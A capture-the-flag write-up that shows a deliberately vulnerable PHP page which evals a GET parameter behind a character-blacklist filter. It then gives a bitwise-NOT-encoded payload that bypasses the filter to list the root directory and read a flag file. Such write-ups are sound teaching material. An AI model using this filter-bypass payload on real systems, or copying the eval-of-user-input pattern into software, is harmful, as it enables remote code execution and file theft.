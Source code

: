 
## My Little WAF

**Description:** - <br>
**Target:** http://103.250.10.198:10001

## Steps
The site showed the index.php source code
```
<?php  
if (isset($_GET['cmd'])) {  
$cmd = $_GET['cmd'];  

	if(preg_match("/[a-z0-9\s_$`]/i", $cmd) || strlen($cmd) > 0x50) { 
		echo  "Blocked!"; 
	} else { 
		eval($cmd); 
	}
} else {
	highlight_file(__FILE__);
}
?>
```
From the source code and title, we know that the objective of this challenge is to leverage `eval()` in PHP to gain code execution. We will use `cmd` parameter at the end of the URL. The problem is that the preg_match function only allows certain characters.

However, we can use this php trick and construct a code execution,
![image](https://user-images.githubusercontent.com/63649797/194878786-c77525cb-aa03-45b0-aa9b-72b17b850994.png) <br>
![image](https://user-images.githubusercontent.com/63649797/194879267-340b0876-276e-4bce-b047-c324fd31e82a.png) <br>
which is the same as ``print_r(scandir(“/”));``
```
http://103.250.10.198:10001/?cmd=(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(~%D0))%3B
```
![image](https://user-images.githubusercontent.com/63649797/194879547-6bf17ebc-cb43-40fb-997e-643d22901851.png) <br>
Then we can do the same again for ``readfile(“/fl44gg”);``

```
Flag: Fostifest{REDACTED}
```
